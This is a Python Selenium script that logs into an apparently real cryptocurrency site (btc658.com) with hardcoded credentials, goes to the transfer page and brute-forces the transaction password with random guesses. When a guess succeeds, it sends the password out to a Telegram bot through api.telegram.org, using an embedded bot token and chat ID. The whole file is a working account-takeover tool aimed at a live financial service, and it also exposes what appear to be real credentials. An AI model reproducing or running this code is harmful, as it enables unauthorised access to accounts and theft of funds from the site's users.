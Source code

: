 import time
import random
import string
import requests
from selenium import webdriver
from selenium.webdriver.common.by import By
from selenium.webdriver.chrome.options import Options

# ====== LOGIN CREDENTIALS ======
USERNAME = "NOMANE"
PASSWORD = "pd789456"

# ====== TELEGRAM ALERT CONFIG ======
BOT_TOKEN = "7480019882:AAFpRKfsv_TZn2nKIqsFpN1VGCCtNwBjgmo"
CHAT_ID = "5302763233"
# ===================================

def send_telegram_alert(found_password):
    message = f"[+] SUCCESS! Password mil gaya: {found_password}"
    url = f"https://api.telegram.org/bot{BOT_TOKEN}/sendMessage"
    data = {'chat_id': CHAT_ID, 'text': message}
    requests.post(url, data=data)

def generate_password():
    length = random.randint(4, 10)
    characters = string.ascii_letters + string.digits
    return ''.join(random.sample(characters, length))

options = Options()
options.add_argument("--headless")
options.add_argument("--disable-gpu")
options.add_argument("--no-sandbox")

driver = webdriver.Chrome(options=options)

# LOGIN
driver.get("https://btc658.com/pages/user/other/userLogin")
time.sleep(2)
driver.find_element(By.NAME, "account").send_keys(USERNAME)
driver.find_element(By.NAME, "password").send_keys(PASSWORD)
driver.find_element(By.CLASS_NAME, "btn").click()
time.sleep(3)

# TRANSFER PAGE
driver.get("https://btc658.com/pages/user/transfer")
time.sleep(3)

# CLICK ON "RECORD" (top-right corner)
driver.execute_script("document.querySelectorAll('.title-bar .text')[1].click()")
time.sleep(3)

# BRUTE-FORCE LOOP
tried_passwords = set()

while True:
    password = generate_password()
    if password in tried_passwords:
        continue
    tried_passwords.add(password)

    try:
        pwd_input = driver.find_element(By.XPATH, '//input[@type="password"]')
        pwd_input.clear()
        pwd_input.send_keys(password)
        driver.find_element(By.XPATH, '//button[contains(text(),"Confirm")]').click()
        time.sleep(2)

        if not driver.find_elements(By.XPATH, '//input[@type="password"]'):
            print(f"[+] SUCCESS! Password mil gaya: {password}")
            send_telegram_alert(password)
            break
        else:
            print(f"[-] Wrong password: {password}")

    except Exception as e:
        print(f"[!] Error: {e}")
    
    time.sleep(2)
